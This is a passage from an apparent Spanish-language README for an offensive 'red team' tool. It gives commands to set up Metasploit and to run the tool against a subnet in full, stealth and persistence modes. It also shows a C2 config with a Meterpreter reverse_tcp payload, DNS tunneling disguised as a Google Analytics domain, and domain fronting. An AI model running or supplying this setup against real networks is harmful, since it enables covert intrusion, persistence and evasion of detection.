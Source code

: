 ### 1. Instalar Dependencias
```bash
python3 install_advanced_dependencies.py
```

### 2. Configurar Metasploit (Linux)
```bash
sudo msfdb init
sudo msfupdate
```

### 3. Verificar Instalación
```bash
python3 main_advanced_red_team.py --help
```

## 📋 Uso

### Uso Básico
```bash
python3 main_advanced_red_team.py 192.168.1.0/24
```

### Modos de Operación
```bash
# Modo completo (recomendado)
python3 main_advanced_red_team.py 192.168.1.0/24 --mode full

# Modo sigiloso (más lento, menos detectable)
python3 main_advanced_red_team.py 192.168.1.0/24 --mode stealth

# Solo persistencia (si ya tienes acceso)
python3 main_advanced_red_team.py 192.168.1.0/24 --mode persistence
```

### Modo Verbose
```bash
python3 main_advanced_red_team.py 192.168.1.0/24 --verbose
```

## 🔧 Configuración

El archivo `config.json` contiene todas las configuraciones avanzadas:

### C2 Configuration
```json
{
  "c2_config": {
    "meterpreter": {
      "enabled": true,
      "payload_type": "linux/x64/meterpreter/reverse_tcp",
      "encryption": true
    },
    "dns_tunneling": {
      "enabled": true,
      "domain": "cdn.google-analytics.com"
    },
    "domain_fronting": {
      "enabled": true,
      "front_domain": "cloudflare.com"
    }
  }
}
```